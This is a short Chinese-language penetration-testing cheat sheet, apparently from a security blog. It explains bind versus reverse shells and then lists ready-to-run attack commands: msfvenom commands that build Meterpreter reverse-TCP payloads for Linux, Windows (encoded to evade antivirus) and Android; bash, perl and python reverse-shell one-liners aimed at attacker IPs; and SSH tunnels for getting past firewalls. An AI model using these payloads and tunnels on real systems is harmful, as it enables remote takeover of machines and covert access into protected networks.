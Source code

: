 <br>

**渗透初探**

**一个概念**

**正向shell：**攻击者连接被攻击者机器，可用于攻击者处于内网，被攻击者处于公网的情况。

攻击者–&gt;被攻击者

**反向shell：**被攻击者主动连接攻击者，可用于攻击者处于外网，被攻击者处于内网的情况。

攻击者&lt;–被攻击者

**msf shell**

反向shell

正向shell

```
Linux:msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.1.102 lport=4444 -f elf -o isshell
```

[![](./img/85827/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f79d18331e00b266.png)

```
Windows:msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘x00’ LHOST=121.196.209.139 LPORT=4444 -f exe &gt; abc.exe
```

[![](./img/85827/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c07eb4fe33b45300.png)

```
Android:msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=5555 R &gt; /root/apk.apk
```

[![](./img/85827/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0120c21ef0fff4535a.png)

其他的各种各样的姿势的反弹shell：



```
bash:bash -i &gt;&amp; /dev/tcp/10.0.0.1/8080 0&gt;&amp;1
perl: perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
python: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

使用SSH通道：



```
Ssh -qTfnN -L port:host:hostport -l user remote_ip 正向隧道，监听本地port
Ssh -qTfnN -R port:host:hostport -l user remote_ip 反向隧道，用于内网穿透防火墙限制之类
Ssh -qTfnN -D port remotehost 直接进行socks代理
```
